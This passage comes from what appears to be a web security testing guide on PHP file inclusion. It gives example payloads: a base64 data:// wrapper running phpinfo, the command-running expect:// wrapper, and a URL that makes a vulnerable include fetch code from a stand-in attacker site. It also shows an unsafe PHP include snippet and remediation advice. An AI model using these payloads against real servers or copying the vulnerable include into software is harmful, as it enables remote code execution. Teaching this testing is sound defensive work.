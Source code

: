 In order to test for LFI using this wrapper, the code to be executed should be base64 encoded. For example, `<?php phpinfo(); ?>` would be encoded as: `PD9waHAgcGhwaW5mbygpOyA/Pg==` and the payload would be represented as: `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`.

##### PHP Expect

This wrapper, which is not enabled by default, provides access to processes `stdio`, `stdout`, and `stderr`. Given in the format `expect://command`, the server would execute the provided command using `BASH` and return the result.

### Testing for Remote File Inclusion

Since RFI occurs when URLs passed to `include` statements are not properly sanitized, in a black-box testing approach, we should look for scripts that take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against an allow list), so this snippet of code is vulnerable to this type of attack. Consider the following URL:

`https://vulnerable_host/vuln_page.php?file=https://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible, the application can maintain an allow list of files that may be included by the page, and then use an identifier (for example, the index number) to access the selected file. Any request containing an invalid identifier should be rejected so that there is no opportunity for malicious users to manipulate the path.
Check out the [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) for good security practices on this topic.

## Tools

- [kadimus](https://github.com/P0cL4bs/Kadimus)
- [LFI Suite](https://github.com/D35m0nd142/LFISuite)
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org)

## References

- [Wikipedia](https://www.wikipedia.org/wiki/Local_File_Inclusion)
- [Null character](https://en.wikipedia.org/wiki/Null_character)
- [Unicode Encoding](https://owasp.org/www-community/attacks/Unicode_Encoding)
- [Double Encoding](https://owasp.org/www-community/Double_Encoding)
- [PHP Supported Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php)
- [RFC 2397 - The "data" URL scheme](https://www.rfc-editor.org/rfc/rfc2397)
- [Wikipedia: "Remote File Inclusion"](https://en.wikipedia.org/wiki/Remote_File_Inclusion)
